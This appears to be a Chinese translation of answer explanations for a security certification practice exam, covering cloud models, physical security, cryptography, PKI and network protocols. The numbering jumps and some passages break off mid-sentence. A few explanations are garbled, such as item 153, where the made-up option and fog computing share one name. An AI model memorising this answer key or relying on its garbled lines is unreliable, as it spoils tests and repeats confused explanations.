64. A. VM 逃逸是指攻击者能够通过 VM 直接与超visor 甚至主机操作系统交互的情况。防止此问题的最佳方法是限制主机和 VM 共享资源的能力。如果可能，它们不应共享任何资源。修补程序可能会缓解这种情况，但不是最有效的解决方案。使用防火墙和反恶意软件工具是良好的安全实践，但对缓解 VM 逃逸的效果有限。

65. A. Irene 正在寻找一种软件即服务（SaaS）工具，使她能够执行组织需要完成的特定功能。SaaS 服务不需要系统管理或编程，通常只需最少的配置即可执行其正常功能。平台即服务（PaaS）通常需要一些配置或编程，而基础设施即服务（IaaS）则需要系统管理、编程或配置——或三者兼有！身份即服务（IDaaS）是一种特定的解决方案，并未被描述为 Irene 需求的一部分。

66. D. 无服务器架构不需要系统管理员，因为提供商管理底层函数即服务（FaaS）能力。它也可以根据需要扩展或缩减，使其非常灵活。无服务器架构通常不适合复杂应用程序，而更倾向于适用于微服务。

67. A. 正确答案是安装一台运动感应摄像头，记录进入服务器机房的每个人。运动识别在这种场景中是一个重要功能，因为摄像头工作在人流很少的空间，记录空闲未使用的空间会浪费存储。智能卡、死锁和日志记录无法检测盗窃。

68. C. 域名系统（DNS） sinkhole 是一种用于欺骗本应解析不受欢迎或恶意主机名的 DNS 服务器的 DNS 服务器。流量可以被发送到合法系统，导致用户屏幕上出现警告，或简单地发送到空路由或不存在的系统。入侵检测系统（IDS）无法阻止流量，轮询 DNS 是一种分散 DNS 流量的方式，而 WAF 是 Web 应用防火墙，且本问题中没有任何内容表明存在 Web 特定问题。

69. C. 热通道/冷通道是数据中心服务器机架和其他计算设备的布局设计。热通道/冷通道配置的目标是通过管理气流来节约能源并降低制冷成本。红外摄像机可以检测通道的热水平。虽然其余选项都是数据中心可能存在的问题，但红外摄像机无法帮助解决它们。

70. D. 安保人员是防止未经授权进入建筑物的最有效方式。选项 A、B 和 C 均不正确。这些都是良好的物理安全措施，但它们并不是防止进入建筑物的最有效方式。

71. B. 软件定义网络（SDN）使网络具有很强的可扩展性。相对容易添加新资源或移除不需要的资源，并有助于高可用性工作。SDN 不能阻止恶意软件、检测入侵或防止会话劫持。

72. A. 正确答案是使用应用程序容器将该应用程序与主机操作系统隔离。应用程序容器提供运行应用程序的虚拟化环境。迁移到软件定义网络（SDN）是一个非常复杂的过程，并不能提供高效的解决方案。在单独的 VLAN 中运行应用程序不会将应用程序与主机操作系统分离；可能无法解决问题。由于这是一个遗留应用程序，坚持使用更新版本的应用程序是不切实际的。

73. D. 上述每个选项在使用第三方库或 SDK 时都可能构成风险。组织需要了解和评估第三方代码的风险，但使用第三方库是一种常见做法。识别值得信赖且可靠的来源并管理版本和更新对于安全使用第三方组件至关重要。

74. B. 云访问安全代理（CASB）用于监控云活动和用量，并对云服务用户强制执行安全策略。

75. A. 微服务架构将应用程序构建为一组松耦合的服务，这些服务使用轻量级协议提供特定功能。它并不具体定义系统的大小，但它不是一个紧密耦合的环境。协议选择通常基于开放标准，但重点在于轻量级协议。服务必须是内部或第三方专属的要求并不存在。

76. C. 正确答案是实施 IaC。基础设施即代码（IaC）是通过机器可读的定义文件而不是物理硬件配置或交互式配置工具来管理和配置计算机数据中心的过程。无论数据中心使用物理机还是虚拟机，这都是管理数据中心的有效方式。虽然可能需要数据中心管理员，但这不一定能在企业范围内提供一致的管理。软件定义网络（SDN）无法解决此问题，但如果她需要根据使用情况和性能配置和管理网络，则会有所帮助。最后，这个问题不仅仅是关于配置；它关乎管理。

77. D. OAuth 是用于云服务的常见授权服务。它允许用户决定将信息托付给哪些网站或应用程序，而无需提供用户密码。OpenID 通常与 OAuth 配对作为身份验证层。Kerberos 更常用于现场身份验证，而 SAML 是安全断言标记语言。

78. C. 在此场景中，Greg 应将打印机被用于对组织进一步攻击的风险识别为最关键的风险。作为分布式拒绝服务（DDoS）攻击的一部分使用在大多数情况下不会直接影响组织，耗尽耗材会令人烦恼，而从远程位置扫描文档的风险需要敏感文档留在多功能打印机中。Greg 应注意所有这些问题都可能成为问题，并将多功能打印机移至受保护的网络，以便第三方无法访问它们。

79. D. Keith 部署的系统是瘦客户端，计算机不从本地驱动器运行其应用程序和存储，而是依赖远程服务器。提供虚拟桌面的云和虚拟化实现称为 VDI，即虚拟桌面基础设施，但不一定需要瘦客户端，因为它们可以在功能齐全的计算机（或胖客户端）上运行。客户端即服务器是一个虚构的术语。


80. B. 这个现实世界的例子是在 2020 年发现的，当时发现了恶意的 PowerShell 代码，该代码对恶意工具进行了三次编码。初始软件包作为图像从 imgur.com 或类似站点下载，并使用隐写术技术隐藏。代码还使用 RSA 加密，并在加密前和加密后都使用 Base64 编码。虽然隐写术并不常见，但 Henry 应该怀疑下载的图像可能不止表面看起来那样。

81. A. 以明文存储数据不会有助于防止数据泄露，事实上更可能导致数据泄露。相反，Molly 应鼓励她的开发人员以加密形式存储和传输敏感数据。他们还应为所有经过身份验证的页面，甚至所有页面利用 HTTPS。使用盐值哈希密码对密码安全很重要，确保令牌不会通过 GitHub 或其他公共代码仓库等网站泄露对应用程序和数据安全很重要。

82. C. 使用安全固件，以及使用具有时间和空间划分的 RTOS，都是帮助确保 RTOS 安全的常见方法。与传统操作系统不同，实时操作系统用于需要立即处理输入的应用程序中。这意味着添加防火墙和反恶意软件等额外负载不是 RTOS 应用程序的典型组件。出于类似原因，你不太可能在大多数运行 RTOS 的设备上找到 Web 浏览器。

83. B. 在代码重用攻击中，攻击者执行原本用于其他目的的代码。在许多情况下，这可能是不再使用的旧代码（死代码），即使该代码位于第三方库中。缓冲区溢出发生在向缓冲区发送过多数据时。例如，假设缓冲区设计为容纳 10 字节，而发送了 100 字节，导致额外数据被放入意外的内存位置。拒绝服务（DoS）攻击旨在使服务或系统对合法用户不可用。会话劫持涉及接管现有的经过身份验证的会话。

84. C. Zigbee 专为此类用途设计。窄带无线电通常不用于此类目的，而基带无线电需要非常大的天线来使用低频频谱。蜂窝选项需要运营商，不适合直接点对点配置。

85. B. 同态加密可以在没有访问用于加密密文的私钥的情况下对密文执行计算。计算完成后，结果与对原始明文执行这些计算的结果相同。身份保留和可复制加密是为本问题编造的。

86. A. 指纹读取系统是目前最广泛接受的用于出入口和其他用途的生物识别系统。面部识别系统越来越多地被使用，并且由于其在手机中的广泛部署，也可能更受用户群体接受，但它们未被列为选项。视网膜和虹膜扫描不太可能被接受，而语音系统相对不常见且对频繁使用更具干扰性。

87. C. 磁带备份是异地冷备份最常见的解决方案。云备份到冷存储库越来越受欢迎，并且在某些检索场景中可能更快，但它们未被列为选项。存储区域网络（SAN）和网络附加存储（NAS）设备通常不用于冷备份，而是用于在线或近线选项。磁盘备份可以使用，但对于真正的冷备份场景而言，仍不如磁带常见。

88. **B.** 异地存储需要在可用性和在发生灾难或其他事件时能够被使用的能力之间取得平衡。在这种情况下，Allan 应该选择一个足够远的设施，使得单一灾难无法使两个站点同时离线。

89. **D.** 嵌入式系统会带来广泛的安全影响，其中许多是由它们经常采用的处理器和硬件的有限能力驱动的。低功耗设计可能缺乏计算能力，因此在实现强加密、网络连接和其他类似问题方面存在挑战。对嵌入式系统进行修补具有挑战性，一方面是因为部署位置，另一方面是因为它们缺乏连接性——事实上，在许多环境中，你可能不希望这些设备连接到你的网络。由于许多设备没有屏幕、键盘或网络连接，身份验证也是一个问题。然而，少数嵌入式设备需要大容量存储，使得缺乏大容量存储通常不是一个主要问题。

90. **B.** 系统级芯片（SoC）设备是单芯片上的完整自包含系统。因此，拥有各自独特的加密密钥是实现身份验证和安全性的最佳方式。选项 A 不正确。系统级芯片是自包含的，因此可信平台模块（TPM）不是合适的解决方案。选项 C 不正确。自加密驱动器（SED）与系统级芯片无关，因为该系统没有“驱动器”。选项 D 不正确。许多 SoC 技术不使用 BIOS。

91. **A.** 此类系统需要所有通信都经过加密。截至目前，移动网络设备的泄露都涉及未加密的通信。选项 B 不正确。完整磁盘加密（FDE）可能并不适用于此类设备。许多设备甚至没有可加密的磁盘。选项 C 不正确。可能无法在许多此类设备上安装防恶意软件。选项 D 不正确。模糊测试用于应用程序。

92. **D.** 车辆使用计算机并具有网络通信能力的越多，它们就越容易受到网络攻击。选项 A、B 和 C 均不正确，因为所有这些都是关注点，而不仅仅是一个。

93. **A.** 编译软件的一个优点是可以进行静态代码分析。这意味着 Amanda 可以审查源代码中的缺陷，如果发现缺陷甚至可以进行修复。二进制文件和编译后的代码都可以在实时环境中进行测试（动态分析），并且两者校验和都可以得到验证。

94. **A.** RFCs，即征求意见书，是互联网协议定义和记录的方式。维基百科不是权威资源，互联网档案馆积极存档互联网，但不定义协议。

95. **C.** 标准命名约定通常无助于从攻击者那里隐藏系统。攻击者仍可以扫描系统，甚至可能利用命名约定来识别系统的用途，如果命名约定在名称中包含用途或技术。命名约定确实使标准化更容易，可以帮助管理员快速识别机器的功能，同时使将系统纳入脚本变得更简单。与之不匹配的机器很可能是不受管控的或配置错误的。

96. **B.** 这是一个持续集成/持续交付（CI/CD）管道的示例。没有提到监控系统，而且尽管这里在测试中进行了代码分析，但它是动态测试，而不是源代码分析。管道中没有提到恶意软件。

97. **D.** 尽管步态分析通常不用于身份识别和授权目的，但在有人群监控录像可用于识别个人时会被使用。静脉、声纹和指纹分析在大多数涉及人员密集和拥挤空间的场景中都无用。

98. **C.** 社区云提供了一种折中解决方案。社区云是半私有的。它们不对公众开放，而只对特定实体的一个小社区开放。公共云存在风险，就像任何环境一样。私有云的构建成本可能相当高，特别是对于无法负担人员或硬件的小型组织而言。最后，不建议使用云解决方案不符合公司的所述目标。

99. **D.** 使用基础设施即服务（IaaS）在这里最有意义；它满足了所述的云要求，并且可以根据需要快速创建或删除额外的系统。平台即服务（PaaS）不提供直接访问 Linux 系统以构建应用程序和相关配置。设置双启动和构建机器不是如所述的云解决方案。当你回答这类问题时，确保阅读并满足问题中的所有要求。

100. **A.** 自动化和脚本编写的危险之一是脚本会完全按照编写的内容执行。这意味着像 Corrine 被要求编写的那样的脚本，如果没有防止其阻止关键系统的规则，就可能阻止这些系统。问题中没有迹象表明存在私有 IP 地址的问题，而过滤它们需要更多工作。攻击者如果发现脚本，可能会利用它们，但如果他们能够访问安全脚本，则可能存在更深层次的问题。最后，审计员通常不会审查脚本，而是询问控制措施的存在。

101. **D.** 差异备份会备份自上次完整备份以来所有的更改。增量备份会备份自上次增量备份以来的所有更改。快照会捕获机器状态和驱动器的位级完整副本，而完整备份是系统的完整副本，但通常不包括内存状态。

102. **C.** 正确答案是公共云。公共云通常价格更低。云提供商拥有众多客户，成本得以分散。即使个人也可以使用 iCloud 和 Amazon Cloud 等服务负担得起云存储。社区云通常是为一小群合作伙伴私有的。每个合作伙伴必须分担比使用公共云更多的费用，但他们对云的控制权比使用公共云时更大。私有云对于小型组织来说通常是最昂贵的。公司必须完全开发和维护云资源，无法利用共享资源。混合部署模型对许多情况来说是很好的折中，但对于小型组织来说，其成本通常会高于公共云。

103. C. 交叉错误率（CER）是误接受率（FAR）和误拒绝率（FRR）交叉的点。CER 提供了一种根据效率比较生物识别系统的方法，CER 越低越理想。

104. B. 弹性是云计算的概念，使资源与需求相匹配，以确保基础设施与环境需求紧密匹配。可扩展性是指按需增长或缩小的能力，但不直接包含与工作负载匹配的概念。规范化是代码开发概念，用于确保数据保持一致形式。

105. A. 不间断电源（UPS）应该是 Nathaniel 的首要优先事项。确保在停电期间电力不中断，并在短时间内维持供电直至备用电源如发电机上线至关重要，而 UPS 可以提供这种能力。发电机单独使用上线时间更长，会导致停电。双电源可以提高弹性，通过允许多个电源并避免电源故障时的问题，但这不是问题的重点。托管式电源分配单元（PDU）提供远程管理和电力监控，但不会在停电时防止电力损失。

106. B. 虚拟机（VM）泛滥是指网络中的虚拟机数量超过 IT 员工有效管理能力的情况。其余选项与 VM 泛滥的术语不匹配。

107. C. 存储过程在许多数据库管理系统中被用于包含 SQL 语句。数据库管理员（DBA）或由 DBA 指定的人员创建该业务所需的各种 SQL 语句，然后程序员只需调用存储过程即可。存储过程与动态链接库（DLL）无关。存储过程可以被服务器上其他存储过程调用。最后，存储过程与中间件无关。

108. D. 防撞柱是大型障碍物，通常由混凝土等坚固物质制成。它们能有效防止车辆驶入建筑物。其他答案均不符合防撞柱的用途。

109. D. Selah 应该担心徽章被克隆，因为磁条徽章在大多数情况下相对容易克隆。尾随很常见，特别是在员工数量众多时，因为员工不太可能在每次换班时为进入的每个人都让门关闭后再重新打开。由于磁条读卡器不需要任何额外信息，如果徽章丢失或被盗，未经授权的人员使用就很容易。

110. A. 虚拟机（VM）逃逸攻击依赖于超visor 中的缺陷，可能允许攻击者攻击超visor 本身。典型的系统管理最佳实践可以帮助，包括定期修补超visor，但在成功逃逸攻击的情况下，通过将相同敏感级别的 VM 隔离到同一主机上限制损害，可以防止更广泛的影响。防病毒软件总是一个好主意，甚至可能阻止一些基于恶意软件的 VM 逃逸攻击，但隔离 VM 更有效。完整磁盘加密（FDE）不会产生任何效果，因为磁盘在运行期间必须未加密。可信平台模块（TPM）用于存储加密密钥。

渗透测试人员，禁用警报并等待未报告警报的情况更可能属于内部测试，而非渗透测试。要求员工打开门并不是使警报失效的方法，而且知道门已设警报的员工不太可能这样做。

118. C. “XaaS”一词指的是任何即服务，广泛指代通过第三方提供商提供的服务存在的海量选项。该问题其余选项均为该问题而编造。

119. D. 标识在安全环境中发挥多重作用，包括阻止不受欢迎或未经授权的访问，提供安全警告，并作为物理安全工作的一部分帮助疏散路线和其他导航信息。

120. B. Nora 建立了一个冷备站。冷备站是可以上线但没有系统的地点；冷备站通常可以接入电力和带宽，但由于只是租赁空间，灾后需要完全配备才能运行。暖备站拥有 Nora 所需的部分或全部基础设施和系统，但没有数据。热备站是具有运行组织所需的所有硬件、软件和数据的完全功能环境。它们维护和运行成本高昂，但被无法承受停机风险的组织使用。MOU 是谅解备忘录，不是灾难恢复站点类型。

121. A. Windows 将其保存以返回到已知良好配置的点称为系统还原点。Matt 如果担心安装新软件或修补可能出现的情况，应在之前设置一个。其余选项都不是 Windows 术语。

122. A. TOTP，即基于时间的单次密码，算法依赖于两个身份验证主机之间的时间准确性。这意味着如果系统或设备未正确同步到权威且正确的时间服务器，或其本地系统时间已漂移，身份验证可能会失败。虽然 TOTP 系统具有一定的灵活性，但时钟偏差足够大时会造成问题。基于 HMAC 的一次性密码 HOTP 和基于短消息服务 SMS 的多因素系统不会受到此问题的影响，而 MMAC 是为本问题编造的。

123. C. 物体检测功能可以检测特定类型或类别的物体，并可用于确定物体是否被移动。在这种情况下，Nina 可以启用物体检测以在包裹送达时通知她，并且她可能能够专门选择要监控的物体以获得额外的安全性。红外功能在低光环境下有用，运动检测通过仅在运动发生时录制来帮助节省存储空间，人脸识别可以帮助识别特定个人，但对包裹没有帮助。

124. C. 尽管设备佩戴者的用户健康数据令人担忧，除非组织要求使用该设备，否则用户的健康数据通常不是组织安全问题。GPS 位置数据、数据从设备复制或可从设备访问导致的数据泄露，以及设备可能充当组织网络的不安全无线网关的可能性，都是可穿戴设备的常见安全问题。缺乏修补、缺乏设备加密以及无法执行合规或安全策略也是可穿戴设备的常见问题。

148. B. 在平台即服务 PaaS 模型中，消费者可以访问用于创建应用程序并托管它们的基础设施。软件即服务 SaaS 提供特定应用程序；基础设施即服务 IaaS 不直接提供创建应用程序的能力，尽管这种区别正在迅速模糊；IDaaS 是身份即服务。

149. B. 避免重复使用加密过程中的关键组件意味着，即使恶意行为者设法破解了某条消息或交换的加密，下一个新的初始化向量 IV 和密钥仍需要完全新的暴力攻击。使用新的 IV 和密钥并不会使暴力攻击不可能，也不会使暴力攻击更容易。一次成功的攻击只会暴露一条消息，或使用该 IV 和密钥加密的数据量。

150. C. Linux 内核使用用户驱动事件，如击键、鼠标移动和类似事件来生成随机性 随机熵。时间不是随机的，用户登录通常不够频繁或随机，无法成为有用的熵来源，网络数据包时序也不用于此。如果你遇到类似问题而不知道从何开始，请考虑你对熵的了解——它是随机性，因此你会寻找最具随机性的输入。因此，你可以排除时间，并且很可能排除用户登录。之后，你可能会考虑可能由外部方控制的内容：发送到系统的网络数据包，并将其排除为潜在攻击向量。这就剩下键盘输入和鼠标移动。

151. C. 椭圆曲线加密方案允许使用比 RSA 密钥要求更短的密钥来实现相同的强度，从而降低加密和解密数据所需的计算开销。这并不意味着你应该使用短密钥；相反，你必须选择与抵抗暴力和其他攻击的要求相匹配的密钥长度。哈希是不可逆的，不是加密形式。

152. C. 照明提供威慑控制，使潜在的恶意行为者感觉自己可能被观察到，没有黑暗区域或阴影可以藏身。它不会检测行为，也不会弥补其他控制的缺乏，虽然某些灯可能会因运动而亮起，但主要目的是威慑恶意或不受欢迎的行为。

153. C. 边缘计算将数据存储和计算能力放置得更靠近所需位置，以节省带宽并改善相关应用程序和服务的响应。混合计算结合本地和云计算。本地云在本地系统上构建云基础设施。雾计算是为本问题编造的，但听起来可能与雾计算相似，雾计算的含义与边缘计算相似，使用本地计算和存储，然后通过互联网连接。

154. D. Ben 部署了令牌化方案。加密需要解密数据才能使用，而文中未提及。哈希可用于隐藏值，但不保留与数据一起工作的能力。掩码修改内容以隐藏个人身份信息或其他敏感信息。

155. D. 围栏既是有效的威慑，因为它阻止恶意行为者进入 Dana 想要保护的场地。它也是物理控制的一个例子。访客日志是管理控制，不会阻止恶意行为者。运动探测器和摄像机是侦测控制的例子。

156. A. 添加数字签名可以确保消息未被更改，因此其完整性完好，并且通过证明消息来自声称发送它的发送者来支持不可否认性。

157. B. 证明流程要求负责经理或其他人员验证用户授权或权限是否正确并与用户应有的权限相匹配。证明不是就业验证流程，尽管经理可能会在证明流程中发现已离开组织的员工仍拥有权限。它不需要身份证明或安全控制的验证。

158. B. 发电机是多小时停电最合适的答案。虽然热备站可以让她的组织保持在线，但热备站的成本远高于发电机。PDU，即电源分配单元，用于管理和分配电力，而不是处理停电。最后，UPS 系统通常不设计用于处理长时间停电。相反，它们调节电力并确保系统保持在线足够长的时间，以便发电机接管供电。

159. A. MAC 支持身份验证和完整性，并用于确认消息来自声称发送它的发送者，并确保接收方可以验证消息的完整性。它不提供保密性。

160. C. 惰性气体系统用于降低房间中的氧气，而不会像二氧化碳系统那样对员工造成危害。干式管道和预充系统都使用水，这会损害精密电子设备。

161. C. 接近卡读卡器通常使用 RFID 无线射频识别 技术。这允许卡在接近时使用，而无需像磁条那样的直接读卡器。生物识别或红外线不用于接近卡读卡器。

162. A. 使用发送者私钥的数字签名通过允许发送者证明他们发送了消息来提供不可否认性。除非发送者的私钥已被泄露，否则使用其私钥签署消息并允许接收方使用其公钥验证签名可确保发送者发送了该消息。更长的密钥并不能证明发送者是谁，哈希不可逆，使用中的公钥是发送者的，而不是接收者的。

163. B. 自然灾害以及人为灾害都是地理安全考虑的主要因素。将备份站点放置在单个灾害的可能路径或范围之外有助于确保组织的运营连续性。MTR 是最大恢复时间，蔓延避免通常被视为虚拟机的考虑因素，服务集成是服务架构的考虑因素，而不是地理位置。

164. B. 尽管对大多数组织而言，无人机和无人驾驶飞行器 UAV 的实际威胁相对较少，但将敏感区域放置在建筑物内部更深处将阻止大多数当前一代无人机进入或记录它们。安全门和其他常见障碍将阻止典型组织将面临的大多数 UAV 或无人机渗透。围栏很容易被飞行无人机绕过，生物识别传感器不会阻止无人机在窗外盘旋，法拉第笼可能阻止无人机接收命令，如果你能先把无人机弄进去的话！

165. D. 在考虑加密的资源限制时，关键的权衡在于：使用更长密钥的更强加密需要更多的计算时间和资源。这意味着加密速度会更慢，并会消耗更多系统容量。需要在安全性与计算开销之间取得平衡，以匹配所处理或发送数据的保密需求。更强的加密通常更慢，在所述场景中熵耗尽并不是典型问题，而更强的加密占用大量磁盘空间在该场景中也不是真正的问题。

166. C. 对消息进行加密可确保其保持机密，前提是只有收件人能够解密。对消息进行哈希处理会导致消息无法恢复，而对其数字签名则可提供不可否认性。最后，量子加密算法及其所需系统目前尚不可用，这意味着阿曼达还无法使用它们——目前如此！

167. C. 在大多数情况下，大型云服务提供商拥有更多的安全人员和更高的安全运营预算。这意味着他们可以在安全控制、人员配备、监控和其他活动上投入更多。使用云服务提供商可以帮助改善那些可能没有能力配备全职或专职安全人员或专业知识的组织的整体安全态势。与此同时，本地员工会更了解业务，并且通常对关键业务需求有更快的响应时间。


168. D. 网络负载均衡器在系统之间分配流量，允许添加或移除系统，并通过排空系统上的连接以及在对系统进行维护时将其从池中移除，使打补丁和升级更加容易。它们还可以帮助监控系统性能、报告问题，并确保负载与它们所代理的系统能力相匹配。防火墙用于安全防护，交换机是用于将流量传输到正确系统的网络设备，而水平扩展器是为本题虚构的选项。

169. D. 受保护电缆分配系统使用电气、电磁，甚至声学或气压传感器等控制措施，确保电缆和分配基础设施不被接触，从而允许以未加密形式传输敏感信息。美国政府确定了三种方案：加固载体、报警载体和持续监视的受保护分配系统。屏蔽电缆用于防止电磁干扰（EMI）。

170. B. 莫琳正在使用音频隐写的概念，通过将数据隐藏到音频文件中以使其不被检测到。其他选项均为本题虚构。

171. B. 由于妮可特别担心短信推送到手机的问题，最可能的攻击模型是 `SIM`（用户身份模块）克隆，使攻击者能够获取发送给合法用户的认证码。对基于网际协议语音（`VoIP`）系统的攻击通常只会帮助拦截发送到 `VoIP` 电话（而非手机）的短信（尽管转发是可能的，但此处未提及）。暴力攻击不太可能攻破短信电话因素，而彩虹表用于破解哈希密码。

180. B. 阿莱娜需要一个本地的安全存储区域，这是使用保险库或保险箱的理想场景，密钥可以存储在 `U 盘` 之类的设备上。简单地将密钥放在驱动器中会使其容易被窃取，而与外界物理隔离（`air-gapped`）的系统也可能面临被盗或本地入侵的风险。

181. B. 先对 `API` 用户进行身份验证，然后授权他们执行操作至关重要。如果你先授权再认证，用户可能会在你不知道他们是谁的情况下就采取行动！在使用 `API` 的全过程中进行加密可确保数据和查询的安全；验证输入并过滤危险字符串对于防止注入和其他攻击非常重要；而审计和日志记录则使你能排查问题并应对攻击。

182. C. 弗兰克使用了消磁器来擦除磁带上的数据。消磁仅适用于磁带等磁性介质，不适用于光盘或闪存介质。焚烧介质或材料正如其字面意思——把它们扔进火里！粉碎和制浆是机械销毁方式。

183. A. 与前几代技术相比，`5G` 要实现全带宽通信需要更高的天线密度，这意味着安吉拉所在组织必须仔细考虑天线的放置位置，尤其是在建筑物内部，结构元素可能会对信号传播造成挑战。`5G` 可在室内使用、已商用，并且可以与传统 `Wi-Fi` 共存，因此安吉拉不应将这些列入她关注的清单。

184. A. 克里斯担心的是权限蔓延（`privilege creep`），即随着员工更换角色且其权限未被移除或更新，权限随时间慢慢累积。权限管理流程有助于防止这种情况，从而使数据更加安全。在其他选项中，只有权限提升（`privilege escalation`）是常见术语，它指获取额外权限，通常是攻击的一部分，从权限较少的账户向管理员或根账户等更高权限账户发起攻击。

185. C. 蜜文件是用于帮助检测攻击者的文件。它们被放置在可检测到访问行为的位置，但并非设置为允许用户访问它们。这意味着，访问了看似有吸引力的文件的攻击者很容易被发现，并可发出相应的警报。

186. C. 虽然没有具体的推荐距离，但建议通常为 60 到 120 英里，以确保单次灾难不太可能使两个地点同时瘫痪。

187. B. 雾计算是思科（`Cisco`）创造的一个术语，用于描述企业网络边缘的云计算。更常见的术语是边缘计算，但你也可能会遇到这两个术语。雾计算实现会在本地处理大量的计算、通信和存储活动，同时也会连接到云服务以执行部分工作。

188. A. `Bcrypt`、`scrypt` 和 `PBKDF2` 都是密钥拉伸算法的例子。`MD5` 和 `SHA1` 都是哈希算法，而 `ncrypt` 是为本题虚构的。

189. C. 所列选项中唯一的目录服务是轻量目录访问协议（`LDAP`）。`SAML` 是安全断言标记语言，`OAuth` 是一种授权委托协议，`802.1x` 是一种网络认证协议。

软件包之间的问题和冲突——事实上，有时已知防病毒（`AV`）软件包会检测到其他防病毒软件包，这是因为它们为了检测恶意活动而在操作系统中植入的深度挂钩。

- 8. B. 阿曼达遇到了一个强制门户（`captive portal`）。强制门户将所有流量重定向到门户页面，要么允许门户收集信息，要么显示页面本身。一旦用户完成了门户设置的要求，他们就被允许浏览互联网。这可以通过分配新的 IP 地址，或者通过防火墙规则或其他类似方法允许已连接的 IP 地址访问互联网来实现。预共享密钥用于无线网络认证。端口安全用于有线网络，`WPA` 代表 `Wi-Fi` 保护访问（`Wi-Fi Protected Access`），如 `WPA`、`WPA-2` 和 `WPA-3`。

- 9. B. 域名系统安全扩展（`DNSSEC`）提供了验证 `DNS` 数据及不存在证明的能力，并为 `DNS` 提供数据完整性。它不提供机密性或可用性控制。如果查尔斯需要提供这些，他将必须实施额外的控制措施。

- 10. B. 谷歌（`Google`）扮演身份提供者（`IdP`）的角色。`IdP` 为联合体创建和管理身份。`RP` 是依赖方，它依赖身份提供者。`SP` 是服务提供者，`RA` 是参与提供加密证书流程的注册机构。

- 11. C. `SSH`（`Secure Shell`，安全外壳）是一种用于连接命令行 Shell 的安全协议。`SSH` 还可以用于隧道传输其他协议，这使它成为系统管理员、安全专业人员和攻击者常用且有价值的工具。使用 `HTTPS` 或传输层安全（`TLS`）来实现安全命令行的情况很少见，而 `Telnet` 是一种不安全协议。

- 12. B. 在所给选项中，只有 `FIDO U2F`——由快速在线身份认证联盟（`Fast Identity Online Alliance`）提供的开放标准——是安全密钥的标准。你可能遇到的其他标准包括 `OTP`（一次性密码）、`SmartCard`、`OATH-HOTP` 和 `OpenPGP`。值得注意的是，`OATH`（开放认证倡议）提供了基于 `HMAC` 的一次性密码（`HOTP`）和 `TOTP`（基于时间的一次性密码）标准。`SAML`（安全断言标记语言）和 `OpenID` 都用于身份验证过程，但不用于安全密钥。`ARF` 是为本题虚构的。

- 13. C. 纳迪亚应该使用安全/多用途互联网邮件扩展（`S/MIME`），它支持非对称加密；然后应使用丹妮尔的公钥对电子邮件进行加密，这样只有丹妮尔能解密并阅读这些消息。安全 `POP3` 会在消息下载时保护消息，但不会保护服务器之间传输的消息内容。

- 14. B. `SRTP` 是实时传输协议（`RTP`）的安全版本，主要用于 IP 语音（`VoIP`）和多媒体流媒体或广播。目前实现的 `SRTP` 并不能完全保护数据包，会暴露 `RTP` 头，从而可能泄露信息，为攻击者提供有关正在传输数据的信息。

- 15. C. 奥利维亚应该让其组织意识到，某个活动节点发生故障会导致最大吞吐量降低，并可能导致服务降级。由于服务很少以最大容量运行，而且许多服务可以安排维护窗口，因此这

这并不意味着负载均衡器无法修补。在这种设计中，负载均衡器并不会比在其他任何设计中更容易遭受拒绝服务攻击。

- 16. A. 文件传输协议安全（`FTPS`）通常使用 `990` 端口进行隐式 `FTPS`，而正常的 `FTP` 命令端口 `21` 用于显式 `FTPS`。端口 `22` 用于 `SSH`，`119` 用于网络新闻传输协议（`NNTP`），`1433` 用于 `Microsoft SQL`，端口 `20` 用于 `FTP`。

- 17. A. 证书装订允许出示证书的服务器通过在线证书状态协议（`OCSP`）提供一种更高效的证书吊销状态检查方式，方法是在证书握手过程中包含 `OCSP` 响应。这既提供了更高的安全性，因为客户端知道证书有效；也提供了更高的效率，因为客户端不必单独执行一次检索来检查证书状态。其余选项均为虚构，不是证书装订。

- 18. B. 注册机构（`RA`）接收新证书的申请以及现有证书的续期请求。它们也可以接收吊销请求和类似任务。中间 `CA` 受根 `CA` 信任来颁发证书。`CRL` 是证书吊销列表。

- 19. C. 基于最少连接的负载均衡会考虑负载情况，并将下一个请求发送到活动会话数最少的服务器。轮询只是按顺序将请求分发到每台服务器，而加权时间则通过健康检查来确定哪台服务器持续响应最快，然后将流量发送到该服务器。最后，源 IP 哈希使用源和目标 IP 地址生成哈希键，然后使用该键跟踪会话，允许中断的会话被重新分配到同一台服务器，从而使会话得以继续。

- 20. A. `IPSec` 的认证头（`AH`）协议不提供数据机密性，因为它只保护头部，不保护有效负载。这意味着 `AH` 可以提供完整性和重放保护，但会使其余数据面临风险。Matt 应注意到这一点，并对为什么 `VPN` 没有使用封装安全协议（`ESP`）表示担忧。

- 21. C. `Michelle` 知道 `POP3` 默认运行在 `110` 端口上，并且 `TLS`（通过扩展 `STARTTLS`）允许 `POP3` 客户端请求安全连接，而无需使用某些配置中使用的备用端口 `995`。`25` 端口是简单邮件传输协议（`SMTP`）的默认端口，`IKE` 用于 `IPSec`。

- 22. A. 云访问安全代理（`CASB`）是一种软件工具或服务，位于组织的本地网络与云提供商的架构之间。`CASB` 充当守门人，使组织能够将其安全策略的覆盖范围扩展到云中。

- 23. A. `Angela` 的公司部署了一个不使用传输层安全（`TLS`）来保持机密性的会话发起协议（`SIP`）版本。她应该改用 `SIP` 安全（`SIPS`）实现来保护电话通话的机密性。`Vishing`（即语音钓鱼）；战争拨号，即尝试映射电话服务的所有号码，通常是为了查找调制解调器；以及拒绝服务攻击，在 `VoIP` 网络上发生的可能性较低，尽管它们仍有可能发生。

`P12` 文件包含使用 `PKCS#12`（公钥加密标准 #12）加密的数字证书。`P12` 文件包含私钥和公钥，以及所有者信息（姓名、电子邮件地址等），所有这些都由第三方认证。凭借此类证书，用户可以识别自己，并向任何信任该第三方的组织进行身份验证。

- 31. D. 防火墙有两种类型的规则。一种是在给定端口上允许特定流量。另一种规则是拒绝流量。这里展示的是一个典型的防火墙规则。选项 A、B 和 C 不正确。所示规则显然是防火墙规则。

- 32. C. 许多订阅服务允许通过 `HTTPS` 检索数据。`Ted` 可以订阅一个或多个威胁情报源或信誉服务，然后将这些信息输入入侵检测系统（`IDS`）、入侵防御系统（`IPS`）、下一代防火墙或类似的网络安全工具。安全断言标记语言（`SAML`）用于对身份和授权做出断言，`VDI` 是虚拟桌面环境，`FDE` 是全磁盘加密。

- 33. B. 安全 `Cookie` 是设置了安全标志的 HTTP `Cookie`，因此要求它们只能通过 `HTTPS` 等安全信道发送。它们不会以加密形式或哈希形式存储，而 `cookie` 密钥是为了本题虚构的。

